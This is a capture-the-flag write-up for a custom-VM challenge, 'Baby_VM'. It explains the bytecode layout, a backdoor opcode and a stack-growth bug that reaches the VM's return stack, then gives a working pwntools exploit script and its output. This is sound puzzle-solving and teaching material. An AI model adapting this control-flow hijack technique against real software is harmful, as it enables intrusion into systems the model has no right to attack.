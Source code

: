# Baby_VM

## Abstract

Reversing is not so hard, and pwning is also not that hard. The most annoying part of this challenge is making disassembler, since it has massive opcodes, and nearly every opcode is used.

Because too many CTFs released VM challenges without making big differences, VM category now seems little-bit outdated, and boring. I think developing VM challenges reaches some kind of critical point.

This challenge is not much different from those past challenges. It needs a usual 3 steps to solve it.

1. Make disassembler, and disassemble byte codes.
2. Find vulnerability from assembly code.
3. Do exploit.

It is pretty time consuming and consists of boring repetitive jobs. 

If you are not friendly with VM challenges, it would be a nice starting point to learn what it is. But if you are used to it, you don't need to spend your time to solve it.

---

## Analyze

### Bytecodes

![1564388830383](assets/1564388830383.png)

Bytecodes are located at 0x205020, and size of it is 0x17D. In runtime, it is copied to data section of VM.



### Sections

![1564388894959](assets/1564388894959.png)

There are three sections.

1. data : global data & codes(0x4000 ~ 0x5000)
2. stack : temporal data
3. return stack : save IP to return

Return stack is unusual one. It only saves IP to return. Maybe it is inspired by safe stack or shadow stack.



### Dispatcher 

![1564389288951](assets/1564389288951.png)

Here is massive one. This VM decodes 42 ordinary opcodes, and one backdoor opcode. 

The backdoor opcode(0xff) uses operand that is 0x13 bytes long. It compare operand with `PleaseGiveMeTheFlag`, and if it is same, it would give you the flag.



---

## Disassemble

I won't show my disassembler code, and disassembled code here, because it's too long. If you want to see the original, you can find it in same git directory.

---

## Find vulnerability

Vulnerability is at `show elements`.

Here is snippet of vulnerable point: 

```assembly
#show elements
...

228:
sub $sp, 0x40
mov $reg9, $reg0
mov $reg1, 0x0
mov $reg0, DWORD PTR chunk[$reg9][$reg1+1]
mov $reg3, DWORD PTR chunk[$reg0]
mov $reg4, 0x0
mov $reg7, $reg3
sub $reg7, $reg4
test $reg7
jz 267

257:
mov $reg1, DWORD PTR chunk[$reg0][$reg4+1]
mov $stack[0xcc0+$reg4], $reg1
add $reg4, $reg15
jmp 249
mov $reg2, 0x0
write(1,stack[0xcc0+$reg2],0x3)
mov $reg0, 0x489c
mov $reg1, 0x1
write(1, data[$reg0], $reg1)
mov $reg1, 0x1
mov $reg0, DWORD PTR chunk[$reg9][$reg1+1]
call 223
add $sp, 0x40
ret
```

We can subtract `$sp` with value of `0x40 * num_of_elements`. Stack size is 0x1000, and return stack is above it. So if we push element enough, we can expand our stack to return stack.

Also because data of elements are copied to stack, we can write arbitrary data into stack.

With those two facts, we can write any address into return stack. It means we can control its IP.

---

## Exploit

Exploit is pretty short.

Here is exploit:

```python
from pwn import *

p=process("./baby_vm.elf")

sa = lambda x,y : p.sendafter(x,y)

def push(a):
    sa(">>>",'1')
    sa("content: ",a)

def show():
    sa(">>>","2")

def pop():
    sa(">>>","3")
    
for i in range(0x75):
    print i
    push((p32(0x1)+p32(0x80))*0x10) #Expand stack enough

p.sendafter(">>>","2\x28\x45\x06") #Trigger vuln
p.send("\xffPleaseGiveMeTheFlag") #Do backdoor operation

p.interactive()
```

1. Expand stack to reach return stack. 
   
Because choice buf(4bytes) is controllable, and it's at data section(offset = 0), we would move our IP to this buf for further step.
   
2. List elements & set choice buf

   Bytecodes `\x28\x45\x06` is same as this pesudo code:

   ```c
   read(0,data[$reg5],$reg4) // $reg4 = $reg5 = 0x80
   return
   ```

3. Send backdoor command

   Top of the return stack is 0x80. So after return, IP will be at 0x80. All we need to do is write backdoor operation at data[0x80].



Here is exploit result:

```
...
\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00
\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00
FLAGFLAGFLAGFLAG
```







